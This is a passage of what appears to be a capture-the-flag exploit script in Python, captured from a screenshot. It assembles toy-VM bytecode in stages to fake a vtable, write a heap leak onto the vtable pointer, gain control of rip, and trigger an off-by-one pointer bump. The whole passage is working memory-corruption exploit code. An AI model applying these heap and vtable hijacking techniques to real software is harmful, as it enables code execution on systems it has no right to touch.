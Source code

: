 ```python
# store vtable ptr itself in our fake vtable, converted to main() addr
ldc 0x0
sbc 0x814
sta 0x510
lda 0x2
# MAYBE_TODO: subtract carry from next 2-byte chunks before storing them
sta 0x512
lda 0x4
sta 0x514
lda 0x6
sta 0x516

# restore heap leak onto vtable ptr, converted to fake vtable
ldc 0x610
adc 0x812
sta 0x0
lda 0x612
sta 0x2
lda 0x614
sta 0x4
lda 0x616
sta 0x6

ill 0

# where we control rip with
@0x508
.0x4141
.0x4242
.0x4343
.0x4444

# where the leaks will be stored
@0x608

# useful constants
@0x800
.0xc041
.0xfff
.0xb042
.0x400
.0x420
.0x4f8
.{hex(0x25a0 if NODBG else 0x5647)}
"""
)

print(hexdump(code1))

p.send(code1.ljust(0x1000, b"\x77"))

# stage 2
log.info("stage 2")

code2 = asm_toy(
"""
# off-by-one increase mem ptr
lda 0x800
tat 0
lda 0x802
stt 0

# read heap leak
```